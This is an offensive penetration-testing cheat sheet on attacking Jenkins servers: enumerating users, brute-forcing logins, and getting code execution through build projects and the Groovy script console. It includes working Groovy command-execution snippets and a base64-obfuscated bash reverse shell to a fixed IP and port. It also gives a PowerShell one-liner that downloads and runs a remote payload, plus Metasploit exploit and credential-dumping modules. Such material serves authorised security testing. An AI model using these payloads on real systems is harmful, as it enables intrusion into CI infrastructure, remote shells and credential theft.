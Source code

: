 Jenkins
Enumeration

In order to search for interesting Jenkins pages without authentication like (/people or /asynchPeople, this lists the current users) you can use:

msf> use auxiliary/scanner/http/jenkins_enum

Check if you can execute commands without needing authentication:

msf> use auxiliary/scanner/http/jenkins_command

Without credentials you can look inside /asynchPeople/ path or  /securityRealm/user/admin/search/index?q= for usernames.

You may e ale to get the Jenkins version from the path /oops or /error
Bruteforce

Jekins does not implement any password policy or username brute-force mitigation. Then, you should always try to brute-force users because probably weak passwords are being used (even usernames as passwords or reverse usernames as passwords).

msf> use auxiliary/scanner/http/jenkins_login

Exploiting Vulnerabilities
gquere/pwn_jenkins
Notes about attacking Jenkins servers. Contribute to gquere/pwn_jenkins development by creating an account on GitHub.
github.com
Code Execution

There are 3 ways to get code execution with Jenkins.
Create a new project

This method is very noisy because you have to create a hole new project (obviously this will only work if you user is allowed to create a new project).

    Create a new project (Freestyle project)

    Inside Build section set Execute shell and paste a powershell Empire launcher or a meterpreter powershell (can be obtained using unicorn). Start the payload with PowerShell.exe instead using powershell.

    Click Build now

​

Go to the projects and check if you can configure any of them (look for the "Configure button"):

Or try to access to the path /configure in each project (example: /me/my-views/view/all/job/Project0/configure).

If you are allowed to configure the project you can make it execute commands when a build is successful:

Click on Save and build the project and your command will be executed.
If you are not executing a reverse shell but a simple command you can see the output of the command inside the output of the build.
Execute Groovy script

Best way. Less noisy.

    Go to path_jenkins/script

    Inside the text box introduce the script

def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"

You could execute a command using: cmd.exe /c dir

In linux you can do:  "ls /".execute().text

If you need to use quotes and single quotes inside the text. You can use """PAYLOAD""" (triple double quotes) to execute the payload.

Another useful groovy script is (replace [INSERT COMMAND]):

def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"

Reverse shell in linux

def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"

Reverse shell in windows

You can prepare a HTTP server with a PS reverse shell and use Jeking to download and execute it:

scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>

MSF exploit

You can use MSF to get a reverse shell:

msf> use exploit/multi/http/jenkins_script_console

POST

Dump Jenkins credentials using:

msf> post/multi/gather/jenkins_gather

References
jenkins to meterpreter - toying with powersploit ·
leonjza.github.io
Hacking Jenkins Servers With No Password
A quick and dirty guide to hacking Jenkins servers for penetration testing purposes. Unauthenticated remote code execution before lunch time!
www.pentestgeek.com

